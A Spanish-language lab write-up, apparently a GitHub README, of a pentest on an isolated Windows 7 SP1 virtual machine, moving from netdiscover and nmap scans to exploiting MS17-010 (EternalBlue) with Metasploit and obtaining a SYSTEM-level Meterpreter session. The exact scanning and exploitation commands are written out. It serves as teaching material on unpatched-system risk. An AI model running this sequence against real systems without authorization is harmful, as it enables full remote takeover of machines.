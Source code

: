 
# Laboratorio de Pentesting Metodológico sobre Windows 7 SP1

![Windows 7 Logo](https://i.imgur.com/gQYyC8p.png)

Este repositorio documenta el proceso completo de un pentest realizado a una máquina virtual Windows 7 Professional SP1 (64-bit), desde el reconocimiento inicial hasta la obtención de privilegios de `SYSTEM`.

**Disclaimer:** *Todas las actividades documentadas aquí se realizaron en un entorno de laboratorio controlado y aislado, con máquinas de mi propiedad. Este proyecto tiene fines exclusivamente educativos para estudiar y comprender las fases de un ciberataque y las vulnerabilidades de sistemas sin parches. No intentes replicar estas acciones en sistemas que no te pertenezcan o para los cuales no tengas permiso explícito.*

## Entorno del Laboratorio

Este pentest fue ejecutado utilizando las siguientes máquinas virtuales en la misma red local.

### Máquina Víctima
*   **Sistema Operativo:** Windows 7 Professional SP1 (64-bit)
*   **Dirección IP:** `192.168.1.13`
*   **Configuraciones Clave:** Firewall y Actualizaciones Automáticas desactivadas.

### Máquina de Ataque
La metodología descrita en este informe es agnóstica al sistema operativo del atacante. Las pruebas se realizaron y pueden ser reproducidas desde cualquiera de las siguientes configuraciones:

*   **Configuración 1: Arch Linux**
    *   **Distribución Base:** Arch Linux
    *   **Repositorios Adicionales:** BlackArch
    *   **Shell:** Zsh con Oh My Zsh

*   **Configuración 2: Kali Linux**
    *   **Distribución:** Kali Linux [2025.3]
    *   **Entorno de Escritorio:** [XFCE]

## Índice de Fases

1.  [Fase 1: Reconocimiento](#fase-1-reconocimiento)
2.  [Fase 2: Escaneo y Enumeración](#fase-2-escaneo-y-enumeración)
3.  [Fase 3: Análisis de Vulnerabilidades](#fase-3-análisis-de-vulnerabilidades)
4.  [Fase 4: Explotación](#fase-4-explotación)
5.  [Fase 5: Post-Explotación](#fase-5-post-explotación)
6.  [Lecciones Aprendidas](#lecciones-aprendidas)

---

## Fase 1: Reconocimiento

**Objetivo:** Identificar los hosts activos en la red y localizar la IP de nuestra máquina objetivo.

Se utilizó `netdiscover` para realizar un sondeo ARP en la red local.

```bash
sudo netdiscover -r 192.168.1.0/24
```

**Resultado:** Se identificó al host `192.168.1.13` como nuestro objetivo, confirmado por su dirección MAC asociada a VirtualBox (`PCS Systemtechnik GmbH`).

---

## Fase 2: Escaneo y Enumeración

**Objetivo:** Descubrir los puertos abiertos, los servicios en ejecución y las versiones de software en la máquina objetivo.

Se utilizó `nmap` para un escaneo exhaustivo de todos los puertos TCP.

```bash
sudo nmap -sS -sV -O -p- -oN nmap_scan.txt 192.168.1.13
```
*   `-sS`: SYN Scan (sigiloso)
*   `-sV`: Detección de versiones de servicios
*   `-O`: Detección de Sistema Operativo
*   `-p-`: Escanear todos los 65,535 puertos TCP

**Hallazgos Clave:**
- **Puerto 445/tcp:** Abierto, corriendo el servicio `microsoft-ds` (SMB). **Este se convirtió en el principal vector de ataque potencial.**
- **Puerto 139/tcp:** Abierto, corriendo `netbios-ssn`.
- **Puerto 135/tcp:** Abierto, corriendo `msrpc`.

---

## Fase 3: Análisis de Vulnerabilidades

**Objetivo:** Analizar el servicio SMB en el puerto 445 en busca de vulnerabilidades conocidas.

Se utilizó el Nmap Scripting Engine (NSE) para ejecutar scripts específicos de detección de vulnerabilidades en SMB.

```bash
sudo nmap -p445 --script="smb-vuln*" -oN smb_vuln_scan.txt 192.168.1.13
```

**Resultado Crítico:** El objetivo fue identificado como **VULNERABLE** a **MS17-010 (EternalBlue)**.

```
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     Risk factor: HIGH
```

---

## Fase 4: Explotación

**Objetivo:** Explotar la vulnerabilidad MS17-010 para obtener acceso remoto al sistema.

Se utilizó el **Metasploit Framework** para configurar y lanzar el exploit.

**Secuencia en `msfconsole`:**
```
# 1. Iniciar Metasploit
msfconsole

# 2. Buscar el exploit
msf > search ms17-010

# 3. Seleccionar el exploit EternalBlue
msf > use exploit/windows/smb/ms17_010_eternalblue

# 4. Configurar la IP del objetivo
msf exploit(...) > set RHOSTS 192.168.1.13

# 5. Lanzar el ataque
msf exploit(...) > exploit
```
**Resultado:** Se obtuvo una sesión de Meterpreter exitosa, confirmando el acceso completo al sistema.

![Meterpreter Session](https://i.imgur.com/9nFk2dZ.png)

---

## Fase 5: Post-Explotación

**Objetivo:** Determinar el nivel de acceso obtenido y demostrar el control sobre el sistema.

El primer comando ejecutado en la sesión de Meterpreter fue para verificar la identidad del usuario.

```
meterpreter > getuid
```

**Resultado:**
```
Server username: NT AUTHORITY\SYSTEM
```
Se obtuvo el máximo nivel de privilegios posible en un sistema Windows, completando el objetivo del pentest.

---

## Lecciones Aprendidas

- La importancia crítica de mantener los sistemas operativos actualizados y parcheados. Una sola vulnerabilidad sin parchear (MS17-010) fue suficiente para comprometer totalmente el sistema.
- La eficacia de una metodología estructurada (Reconocimiento -> Escaneo -> Explotación).
- La diferencia fundamental en la postura de seguridad por defecto entre un sistema antiguo (Windows 7) y uno moderno (Windows 10), como se demostró en los escaneos preliminares.


